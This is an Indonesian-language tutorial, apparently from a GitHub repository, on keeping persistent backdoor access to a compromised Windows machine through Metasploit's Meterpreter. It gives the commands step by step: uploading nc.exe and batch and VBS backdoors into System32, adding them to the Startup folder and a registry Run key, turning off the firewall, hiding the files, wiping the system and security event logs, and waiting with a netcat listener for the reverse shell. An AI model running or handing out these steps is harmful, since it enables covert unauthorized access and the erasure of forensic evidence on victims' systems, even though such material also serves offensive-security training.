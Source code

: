 # Teknik Persistence pada Target

## A. Apa Itu Persistence?

[Persistence](https://www.offsec.com/metasploit-unleashed/persistent-backdoors/) adalah teknik yang digunakan oleh seorang penyerang untuk memastikan akses terus terjaga pada mesin target meskipun sistem direboot atau pengguna melakukan logout. Pada dasarnya, teknik ini akan memastikan bahwa payload atau backdoor tetap berjalan dan dapat diakses kembali pada sesi mendatang.

## B. Teknik Persistence Manual di Windows

Berikut ini adalah langkah-langkah untuk membuat persistence di mesin target (Windows) secara manual:

### 1. Upload Semua Backdoor

   Setelah berhasil masuk ke Meterpreter dari Metasploit, upload semua bakdoor yang ada di folder `backdoor` ke target mesin.

   1. Backdoor `nc.exe`:

      ```
      upload nc.exe C:\\Windows\\System32\\nc.exe
      ```

   2. Backdoor `backdoor.bat`:

      > Pada backdoor `backdoor.bat` ubah IP Address nya sesuai dengan IP Address yang kamu punya.

      ```
      upload backdoor.bat C:\\Windows\\System32\\backdoor.bat
      ```

   3. Backdoor `backdoor.vbs`:

      ```
      upload backdoor.vbs C:\\Windows\\System32\\backdoor.vbs
      ```
      
### 2. Salin Backdoor `backdoor.vbs` ke Folder Startup

> Pada bagian ini sampai ke Hapus Log, di meterpreter metasploit ketikkan shell untuk masuk ke CMD target mesin.

```
copy C:\Windows\System32\backdoor.vbs "C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup"
```

Ganti <USERNAME> dengan nama user yang ada pada target.

### 3. Tambahkan ke Registry

```
reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v Backdoor /t REG_SZ /d "C:\Windows\System32\backdoor.vbs" /f
```

### 4. Matikan Firewall

```
netsh advfirewall set allprofiles state off
```

###  5. Sembunyukan File

```
attrib +h C:\Windows\System32\nc.exe
attrib +h C:\Windows\System32\backdoor.bat
```
### 6. Hapus Log

```
wevtutil cl system
wevtutil cl security
```

### 7. Siapkan Listener

```
nc -lvp 4444
```

Saat sistem target dinyalakan atau direstart, akses CMD dari sistem target akan diperoleh secara otomatis.

